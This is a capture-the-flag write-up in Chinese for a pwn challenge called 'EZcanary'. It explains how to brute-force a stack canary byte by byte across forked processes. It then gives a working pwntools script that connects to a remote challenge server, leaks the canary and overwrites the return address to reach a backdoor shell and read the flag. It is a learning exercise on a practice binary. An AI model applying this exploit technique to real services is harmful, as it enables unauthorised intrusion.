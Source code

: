 # Week 3
## PWN
### EZcanary
![[Pasted image 20241013112732.png]]
![[Pasted image 20241013112758.png]]
保护除了PIE全开，初步看有循环，进入IDA查看
![[Pasted image 20241013113028.png]]
![[Pasted image 20241013113135.png]]
有后门函数直接使用，把程序的返回地址改为后门函数的地址即可获取shell。现在需要找到方法获取`canary`。
可以发现有`fork`函数创建线程，`fork`函数创建的线程中`canary`的值是不会改变的，那么只需要利用这一特性不停爆破`canary`的值，返回`stack smashing detected` 说明不对，没有返回则说明这一位正确，可爆破出`canary`的值
exp:
```python
from pwn import *

local = False
context.log_level = 'debug'
if local:
    p = process('./ezcanary')
    # pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('8.147.132.32', 30758)
elf = ELF('./ezcanary')

backdoor = 0x401236

canary = b'\x00'
for i in range(7):
    pause()
    for b in range(256):
        payload = b'a' * (0x50 + 8)+ canary + b.to_bytes(1, 'little')
        print("-------------------------------------\n", payload)
        p.recvuntil(b'\n')
        # 这里复制过来的缩进在markdowm里看着有问题，下面两个recvuntil和print是同级的
        p.recvuntil(b'\xe6\x83\xb3\xe5\xbf\x85\xe6\x88\x91\xe7\x9a\x84\xe7\xa8\x8b\xe5\xba\x8f\xe4\xb8\x80\xe5\xae\x9a\xe5\xbe\x88\xe5\xae\x89\xe5\x85\xa8\xe5\x90\xa7\xce\xb5=\xce\xb5=\xce\xb5=(~\xef\xbf\xa3\xe2\x96\xbd\xef\xbf\xa3)~\n')
        p.recvuntil(b'\xe4\xbd\xa0\xe8\xa7\x89\xe5\xbe\x97\xe5\x91\xa2\xef\xbc\x9f\n')
        p.send(payload)
        time.sleep(0.1)
        a = p.recv()
        if b"stack smashing detected" not in a:
            log.info(f'a: {a}')
            canary += b.to_bytes(1, 'little')
            log.success(f'canary: {canary}')
            if i < 6 :
                p.sendline(b'1')
            else:
                p.sendline(b'cat flag')
            break
        else:
            p.sendline(b'1')
            p.recvuntil(b'(*^_^*)\n')
log.success(f'final_canary: {canary}')
# gdb.attach(p, 'b *0x4013B3')
payload = b'a' * (0x50 + 8) + canary + p64(0) + p64(backdoor)
p.recvuntil(b'\n')
p.sendline(payload)
```